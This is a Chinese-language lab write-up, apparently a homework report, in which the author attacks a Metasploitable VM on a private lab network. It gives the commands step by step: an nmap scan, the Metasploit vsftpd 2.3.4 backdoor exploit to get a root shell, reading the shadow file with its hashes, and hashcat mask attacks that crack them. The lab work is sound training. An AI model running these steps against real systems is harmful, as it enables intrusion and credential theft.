# P1





- 攻击机ip:`192.168.56.133`
- 靶机ip:`192.168.56.139`

# P2

修改密码为

- msfadmin:`msf123`

- root：`xzc123`

# P3

使用 msf 中的 nmap 进行端口扫描.

```bash
sudo msfconsole
nmap -sS 192.168.56.0/24 -p 1-10000
```



由于目标靶机开放着ftp的21端口, 因此考虑其是否存在 VSFTPD 源码包后门漏洞. 通过 Nmap 的 `ftp-vsftpd-backdoor` 脚本来进行扫描探测, 使用如下命令, 执行结果如下图所示, 可以看到存在该漏洞, 并且可以进行漏洞利用.

`nmap -script ftp-vsftpd-backdoor -p 21 192.168.56.139`



# P4

在msf中查找和 vsftpd 有关的漏洞利用模块

`search vsftpd`



选用模块, 并设置选项中的 `RHOSTS` 为目标靶机的IP

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set rhost 192.168.56.139
```



进行漏洞利用, 并成功得到了目标靶机的shell

`exploit`



使用 `ip addr` 命令查看当前shell所属的主机IP, 可以看到为靶机的IP; 使用 `id` 命令查询可以看到当前 shell 已是 root 权限



使用 `cat` 命令即可列出靶机 shadow 文件中的内容



可以看到 

msfadmin账号的内容为 `msfadmin:$1$nag8fB9j$0NcsY9PrE4tU1aqvY9tXE/:19107:0:99999:7:::`

root账号的内容为 `root:$1$m0reUzXE$oDw7nB8xl7UG2BZ1Ss1sg0:19107:0:99999:7:::`

# P6 msfadmin

msfadmin账号内容为: `$1$nag8fB9j$0NcsY9PrE4tU1aqvY9tXE/:19107:0:99999:7:::`, 由第一部分的值为 `1` 可以确定加密算法为 md5, 由第二部分可以确定加密的盐值为 `nag8fB9j`, 加密后的密文为 `0NcsY9PrE4tU1aqvY9tXE/`

使用 hashcat 工具进行破解. 通过对密码的已知信息, 使用如下命令进行暴力破解

新建一个1.txt

内容是`$1$nag8fB9j$0NcsY9PrE4tU1aqvY9tXE/`

破解命令

`hashcat -m 500 -a 3 ./1.txt ?l?l?l?d?d?d --force`



破解成功得到`msf123`



# P7 root

同上一部分 不再赘述

`hashcat -m 500 -a 3 ./2.txt ?l?l?l?d?d?d --force`



破解成功得到`xzc123`

